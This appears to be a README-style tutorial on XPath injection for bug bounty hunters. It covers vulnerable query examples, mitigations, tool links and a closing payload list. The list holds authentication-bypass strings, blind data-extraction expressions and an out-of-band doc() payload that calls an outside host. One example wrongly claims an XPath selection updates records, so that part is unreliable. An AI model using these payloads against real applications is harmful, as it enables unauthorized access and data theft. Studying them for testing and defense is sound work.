 # XPATH Injection

- [Introduction](#introduction)
- [Understanding XPATH Injection](#understanding-xpath-injection)
- [The Impact of XPATH Injection](#the-impact-of-xpath-injection)
- [Common Attack Scenarios](#common-attack-scenarios)
- [Modifying Database Contents](#modifying-database-contents)
- [Tutorials for XPATH Injection](#tutorials-for-xpath-injection)
- [Payloads for XPATH Injection](#payloads-for-xpath-injection)

# Introduction:
In the realm of web security vulnerabilities, XPATH injection has emerged as a significant threat. As a bug bounty hunter or ethical hacker, understanding the intricacies of XPATH injection can prove invaluable when searching for vulnerabilities in web applications. This article delves into the details of XPATH injection, highlighting its impact, common attack scenarios, and providing examples to enhance comprehension.

## Understanding XPATH Injection:
XPATH, short for XML Path Language, is a query language used to navigate XML documents. It allows developers to extract specific data from an XML structure by defining a path to the desired elements. However, when user input is concatenated directly into an XPATH query without proper sanitization, it opens the door for potential exploitation, leading to XPATH injection vulnerabilities.

## The Impact of XPATH Injection:
XPATH injection can have severe consequences, allowing attackers to manipulate the query's execution and gain unauthorized access to sensitive information. Depending on the application's context, an attacker can extract data, modify database contents, perform administrative actions, or even execute arbitrary code. This makes XPATH injection a high-risk vulnerability that must be addressed promptly.

## Common Attack Scenarios:

### Extracting Sensitive Information:
One of the most common objectives of XPATH injection attacks is to extract sensitive data. By injecting carefully crafted XPATH expressions, an attacker can bypass authentication mechanisms or access unauthorized data. For instance, consider the following vulnerable XPATH query:

```
$query = "//user[@username='$input_username' and @password='$input_password']";

```
If an attacker supplies the input ' or 1=1 or ''=', the resulting XPATH query would become:

```
$query = "//user[@username='' or 1=1 or ''='' and @password='' or 1=1 or ''='']";


```
This would trick the query into returning all user records, compromising the system's security.

### Modifying Database Contents:
In some cases, an attacker might attempt to modify the database by injecting XPATH expressions. Suppose a vulnerable XPATH query is employed to update user details:


```
$query = "//user[@id='$input_id']/name";

```

If an attacker provides the input ' or 1=1 or ''=', the resulting XPATH query would become:

```
$query = "//user[@id='' or 1=1 or ''='']/name";


```

This would update the name attribute for all user records, allowing the attacker to manipulate data within the database.

## Mitigating XPATH Injection Vulnerabilities:
To protect web applications against XPATH injection vulnerabilities, several measures can be implemented:

#### Input Validation and Sanitization:
Ensure that all user inputs are validated and sanitized properly. Utilize input validation techniques such as whitelisting or regular expressions to filter out any malicious input.

### Parameterized Queries:
Prefer parameterized queries or prepared statements over concatenating user input directly into XPATH queries. This helps separate the query logic from user-supplied data, mitigating the risk of injection attacks.

### Least Privilege Principle:
Follow the principle of least privilege by granting minimal access rights to database users. Restricting access helps limit the potential damage that an attacker can cause if a vulnerability is exploited.

# Conclusion:
XPATH injection vulnerabilities pose a significant threat to web applications, enabling attackers to manipulate queries and gain unauthorized access to sensitive information. As a bug bounty hunter or ethical hacker, understanding XPATH injection and its potential consequences is crucial for identifying and addressing these vulnerabilities. By implementing robust input validation, utilizing parameterized queries, and adhering to the principle of least privilege, developers can effectively mitigate the risk posed by XPATH injection attacks, safeguarding web applications and user data.

### Tools for XPATH Injection

- [xcat](https://github.com/orf/xcat) - Automate XPATH Injection Attacks
- [XXXpwn](https://github.com/feakk/xxxpwn) - Advanced XPATH Injection Tool
- [xpath-blind-exlorer](https://github.com/micsoftvn/xpath-blind-explorer)
- [XmlChor](https://github.com/Harshal35/XMLCHOR) - Xpath injection exploitation tool

### Tutorials for XPATH Injection
- [What is an XPATH Injection](https://learn.snyk.io/lesson/xpath-injection/) - A good overview by Snyk
- [XPATH Injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection) - Another great article by Hacktricks
- [XPATH Injection](https://owasp.org/www-community/attacks/XPATH_Injection) - A good tutorial/article by OWASP

### Payloads for XPATH Injection

Exploitation
```
' or '1'='1
' or ''='
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
' and count(/comment())=1 and '1'='1
search=')] | //user/*[contains(*,'
search=Har') and contains(../password,'c
search=Har') and starts-with(../password,'c

```

Blind Exploitation
1. Size of a string
```
and string-length(account)=SIZE_INT
```
2. Extract a character
```
substring(//user[userid=5]/username,2,1)=CHAR_HERE
substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
```

Out of Band Exploitation
```
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')

```
